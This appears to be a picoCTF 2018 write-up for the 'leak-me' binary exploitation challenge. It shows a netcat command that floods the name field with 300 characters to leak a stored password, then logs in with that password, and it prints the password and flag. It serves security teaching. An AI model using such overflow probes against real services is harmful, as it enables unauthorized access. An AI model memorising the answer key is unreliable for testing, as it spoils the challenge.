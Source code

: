 # leak-me
Points: 200

## Category
Binary Exploitation

## Question
>Can you authenticate to this [service](files/auth) and get the flag? Connect with `nc 2018shell1.picoctf.com 31045`. [Source](files/auth.c). 

### Hint
>Are all the system calls being used safely?
>
>Some people can have reallllllly long names you know..

## Solution
By spamming the service with multiple characters, the password from _password.txt_ gets leaked.

```
$ python -c "print 'A' * 300" | nc 2018shell1.picoctf.com 31045
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_d98e8d

Incorrect Password!
```

Now we can enter in a name and the password obtained.

```
$ nc 2018shell1.picoctf.com 31045
What is your name?
Platy
Hello Platy,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_d98e8d
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
```

### Flag
`picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}`
